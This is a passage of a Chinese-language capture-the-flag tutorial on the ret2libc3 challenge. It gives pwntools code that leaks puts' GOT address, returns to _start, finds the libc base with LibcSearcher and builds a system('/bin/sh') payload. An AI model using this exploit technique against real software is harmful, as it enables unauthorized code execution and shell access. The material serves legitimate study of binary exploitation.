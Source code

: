 ### 偏移量

和前面的一样 都是通过cyclic指令实现(不会就是没有认真看)

### 找puts的got

我们可以使用pwntools的ELF来寻找puts函数的got

```cobol
from pwn import *
p=process('./ret2libc3')
elf=ELF('ret2libc3')
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
start_addr=elf.symbols['_start']
```

这里有一个问题 为什么我们需要找到开始的地址 _start表示程序开始的地址

我们找这个的目的是为了让程序重新执行一遍 因为我们要上传shellcode

一遍我们只能找到got表的泄露 我们要写入的话就要重新执行一下 所以等等通过把start的地址存入返回地址 让程序执行两次

我们可以开始写找到got后的exp了（还没有写完 这是第一次的payload）

```cobol
from pwn import *
p=process('./ret2libc3')
elf=ELF('ret2libc3')
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
start_addr=elf.symbols['_start']
payload1=flat([b'A'*112,puts_plt,start_addr,puts_got])
p.sendlineafter('!?',payload1)
puts_addr=u32(p.recv(4))
```

这样我们得到了puts的真实地址

这里我们解释一下两个代码

```cobol
p.sendlineafter('!?',payload1)
在出现字符串!?后 注入payload1
puts_addr=u32(p.recv(4))
p.recv(4)接受程序返回的二进制 大小为4字节
u32（）为保存为无符号的32位
```

这里我们就得到了puts_addr的真实地址

### 使用libcsearcher 来查找libc偏移量

如果下面代码报错了 需要重新载入一下库 因为初始库可能无法使用

更新时间会很长

```cobol
libc=LibcSearcher('puts',puts_addr)
base=puts_addr-libc.dump('puts')
system_addr=base+libc.dump('system')
bin_addr=base+libc.dump('str_bin_sh')
payload2=flat([b'A'*112,system_addr,1234,bin_addr])
```

